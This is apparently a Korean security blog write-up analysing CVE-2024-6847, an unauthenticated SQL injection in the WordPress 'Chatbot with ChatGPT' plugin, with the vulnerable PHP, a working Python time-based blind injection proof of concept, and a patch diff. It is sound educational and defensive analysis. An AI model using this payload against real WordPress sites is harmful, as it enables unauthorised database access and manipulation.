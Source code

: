 ```yaml
---
title: "[CVE-2024-6847] 취약점 분석 보고서"
date: 2025-02-21 19:02:00 +0900
author: rlaaudrb1104
categories: [One-Day 분석, WordPress]
tags: [빡공팟,콘테스트 네뷸라,WordPress, GiveWP, CVE-2024-6847, SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



> ## **💡 요약**  
> **CVE-2024-6847**은 Chatbot with ChatGPT라는 워드프레스 플러그인 버전 2.4.4 이하에서 발견된 **SQL Injection**취약점입니다.
> 해당 취약점은 사용자가 제출한 메세지를 SQL문에 사용할 때 적절한 파라미터 검증과 이스케이프 처리가 이루어지지 않아 발생합니다.
> 이를 통해 인증되지 않은 사용자가 챗봇에 메시지를 제출할 때 악의적인 SQL 쿼리를 삽입하여 데이터베이스에 접근하거나 조작할 수 있습니다.

## 1. 취약점 개요

- **취약점 번호:** CVE-2024-6847  
- **영향 받는 버전:** Chatbot with ChatGPT 2.4.4 이하
- **취약점 유형:** SQL Injection
- **CVSS:** 9.8
- **취약점 패치 버전:** 3.2.16

해당 취약점은 WordPress의 Chatbot with ChatGPT 에서 발견된 **SQL Injection** 취약점입니다.

해당 취약점은 사용자가 챗봇에게 메세지를 전송할 때 `unique_conversation` 파라미터의 검증과 이스케이프 처리가 이루어지지 않아 발생하는 **SQL Injection** 취약점 입니다.

## 2. 취약점 상세

### 2.1 취약점 원인
<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
    public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
    $messages   = $this->wdgpt_get_last_two_messages();
    $messages[] = array(
        'role'    => 'assistant',
        'content' => $answer,
    );
    $now        = current_time( 'mysql' );
    $post_id    = implode( ',', $post_ids );
    global $wpdb;

    $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );

    if ( $existing_entry ) {
        $existing_post_ids = explode( ',', $existing_entry->post_ids );
        $new_post_ids      = array_unique( array_merge( $existing_post_ids, $post_ids ) );
        $wpdb->update(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => implode( ',', $new_post_ids ),
                'created_at' => $now,
            ),
            array( 'unique_id' => $unique_conversation )
        );
        $log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
    } else {
        $wpdb->insert(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => $post_id,
                'created_at' => $now,
                'unique_id'  => $unique_conversation,
            )
        );
        $log_id = $wpdb->insert_id;
    }

    foreach ( $messages as $message ) {
        $this->wdgpt_insert_log_message( $message, $log_id );
    }
}
```

</details>

`wdgpt_log_chat` 함수에서 인자로 받아오는 `unique_conversation` 변수를 적절한 이스케이프 없이 sql 쿼리에 직접 사용하고 있기 때문에 SQL Injection이 발생합니다.
```php
public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
	...
	$existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
	$log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
}
```

<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();

		header( 'Content-type: text/event-stream' );
		header( 'Cache-Control: no-cache' );
		// Check if $answer_parameters is an empty array.
		if ( empty( $answer_parameters ) ) {
			echo 'event: error' . PHP_EOL;
			echo 'data: ' . __( 'Currently, there appears to be an issue. Please try asking me again later.', 'webdigit-chatbot' ) . PHP_EOL;
			ob_flush();
			flush();
			return '0';
		}
		$api_key                = $answer_parameters['api_key'];
		$temperature            = $answer_parameters['temperature'];
		$messages               = json_decode( json_encode( $answer_parameters['messages'], JSON_INVALID_UTF8_SUBSTITUTE ) );
		$max_tokens             = $answer_parameters['max_tokens'];
		$model_type             = $answer_parameters['model_type'];
		$top_summaries_post_ids = $answer_parameters['top_summaries_post_ids'];
		$openai                 = new OpenAi( $api_key );

		$answer = '';

		$chat = json_decode(
			$openai->chat(
				array(
					'model'       => $model_type,
					'messages'    => $messages,
					'temperature' => floatval( $temperature ),
					'max_tokens'  => $max_tokens,
					'stream'      => true,
				),
				function ( $ch, $data ) use ( &$answer, $answer_generator ) {
					$obj = json_decode( $data );
					// Vérifiez si $obj est un objet et s'il a la propriété 'error' et si la propriété 'message' n'est pas vide.
					if ( is_object( $obj ) && property_exists( $obj, 'error' ) && ! empty( $obj->error->message ) ) {
						$answer_generator->wdgpt_insert_error_log_message( $obj->error->message, 0, 'stream_error' );
					} else {
						echo $data;
						$result = explode( 'data: ', $data );
						foreach ( $result as $res ) {
							if ( '[DONE]' !== $res ) {
								$arr = json_decode( $res, true );
								if ( isset( $arr['choices'][0]['delta']['content'] ) ) {
									$answer .= $arr['choices'][0]['delta']['content'];
								}
							}
						}

						// echo PHP_EOL;
						ob_flush();
						flush();
						return strlen( $data );
					}
				}
			)
		);

		$pattern     = '/\[(.*?)\]\((.*?)\)/';
		$replacement = '<a href="$2" target="_blank">$1</a>';

		$transformed_string = preg_replace( $pattern, $replacement, $answer );

		$transformed_string = str_replace( "\n", '<br>', $transformed_string );

		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```

</details>

또한 `wdgpt_log_chat` 함수를 호출하는 함수인 `wdgpt_retrieve_prompt` 함수에서도 적절한 이스케이프 없이 `wpgpt_log_chat` 함수로 전달하고 있습니다.

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();
		...
		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```
따라서 사용자는 `unique_conversation` 매개변수를 통해 SQL Injection을 수행할 수 있게 됩니다.

## 3. PoC

### 3.1 PoC 코드

```python
import requests
import time

url = "http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt"

payload = "mlg4w8is9cnlxonnq78' AND (SELECT 1 FROM (SELECT SLEEP(7))A) AND '1'='1"

conversation_data = [
    {
      "text": "Test",
      "role": "user",
      "date": "2025-01-24T12:16:42.179Z"
    }
  ]

headers = {
    "Content-Type": "text/plain;charset=UTF-8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "question": "test sql injection",
    "conversation": conversation_data,
    "unique_conversation": payload
}

start_time = time.time()
response = requests.post(url, json=data, headers=headers)

end_time = time.time()

response_time = end_time - start_time
if response_time > 7:
    print(f"SQL Injection successful. Response delay: {response_time:.2f} seconds.")
else:
    print("SQL Injection not successful or server did not delay.")
    
print(response.text)
```

### 3.2 주요 기능

- **URL**: `url` 변수에는 요청을 보내야 할 API 엔드포인트가 포함됩니다. 여기서는 `http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt`를 사용합니다.

- **Payload**: `payload` 변수는 SQL 인젝션 페이로드입니다. 이는 `unique_conversation` 값에 삽입되며, `SLEEP(7)`을 사용하여 서버의 응답을 7초 동안 지연시킵니다.

- **Headers**: 요청의 헤더 정보입니다. 일반적인 HTTP 요청을 위해 필요한 정보를 설정합니다.

- **Data**: 요청 본문에 포함될 데이터를 구성하는 부분으로, `question`, `conversation`, 그리고 악성 SQL 인젝션 페이로드가 포함된 `unique_conversation` 값이 포함됩니다.

- **Response Time**: 서버의 응답 시간을 측정하여 `SLEEP(7)`이 실행되었는지 확인합니다. 응답 시간이 7초 이상일 경우, SQL 인젝션 공격이 성공적으로 실행되었음을 나타냅니다.

### 결과 확인

- **성공적인 SQL 인젝션**: 만약 서버가 7초 이상 지연된 응답을 보낸다면, 이는 SQL 인젝션이 성공적으로 이루어졌다는 신호입니다. 이 경우 `SQL Injection successful` 메시지가 출력됩니다.

- **실패한 SQL 인젝션**: 응답 지연 시간이 7초 이하일 경우, SQL 인젝션이 성공하지 않았거나 서버가 이를 방어했다는 것을 의미합니다.

## 4. 패치 내용 및 변경사항 분석

```
diff --git a/path/to/file.php b/path/to/file.php
index 1234567..89abcde 100644
--- a/path/to/file.php
+++ b/path/to/file.php
@@ 기존 DB 쿼리 부분
- $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
+ $existing_entry = $wpdb->get_row( $wpdb->prepare(
+     "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
+     $unique_conversation
+ ) );
@@ 사용자 입력 sanitization 부분
- $question            = $params['question'];
- $conversation        = $params['conversation'];
- $unique_conversation = $params['unique_conversation'];
+ $question            = sanitize_text_field( $params['question'] );
+ $conversation = array_map(function($conv) {
+     return [
+         'text' => sanitize_text_field( $conv['text'] ),
+         'role' => sanitize_text_field( $conv['role'] ),
+         'date' => sanitize_text_field( $conv['date'] )
+     ];
+ }, $params['conversation']);
+ $unique_conversation = sanitize_text_field( $params['unique_conversation'] );
```

SQL Injection 취약점을 해결하기 위해, 다음과 같은 수정이 이루어졌습니다.

### 4.1 `prepare()` 사용

수정된 코드는 SQL 쿼리에서 `wpdb->prepare()`를 사용하여 `unique_conversation` 값을 안전하게 처리합니다. 이 메서드는 SQL 쿼리 내에 사용될 변수를 안전하게 escaping 처리하여 SQL 인젝션을 방지합니다.

```php
$existing_entry = $wpdb->get_row( $wpdb->prepare(
    "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
    $unique_conversation
));
```

### 4.2 `sanitize_text_field()` 사용
또한, `unique_conversation` 값은 입력받은 후 `sanitize_text_field()` 함수로 처리됩니다. 이 함수는 텍스트 필드에서 불필요한 HTML 태그나 특수 문자를 제거하여, 악의적인 스크립트나 SQL 쿼리를 삽입할 수 없도록 만듭니다.

```php
$unique_conversation = sanitize_text_field($params['unique_conversation']);
```